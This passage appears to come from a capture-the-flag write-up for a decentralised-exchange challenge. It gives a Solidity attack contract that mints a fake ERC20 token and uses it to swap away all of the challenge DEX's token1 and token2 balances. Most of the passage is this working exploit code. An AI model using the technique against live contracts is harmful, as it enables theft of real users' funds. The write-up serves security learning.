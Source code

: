 Once these swaps are done, the challenge contract will be drained of both the tokens. Find the hack contract below.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol';

contract maliciousToken is ERC20 {
    constructor() ERC20("fakeToken", "fT") {
        _mint(msg.sender, 4);
    }
}

interface IDex2 {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
}

contract hack {

    IDex2 private immutable dex;
    ERC20 private immutable token1;
    ERC20 private immutable token2;

    constructor (IDex2 target) {
        dex = target;
        token1 = ERC20(dex.token1());
        token2 = ERC20(dex.token2());
    }

    function attack () external {
        maliciousToken fakeToken = new maliciousToken();

        fakeToken.transfer(address(dex), 1);

        fakeToken.approve(address(dex), 100);

        dex.swap(address(fakeToken), address(token1), 1);
        dex.swap(address(fakeToken), address(token2), 2);

        require(token1.balanceOf(address(dex))==0, "T1 is not 0!");
        require(token2.balanceOf(address(dex))==0, "T2 is not 0!");
    }
}
```
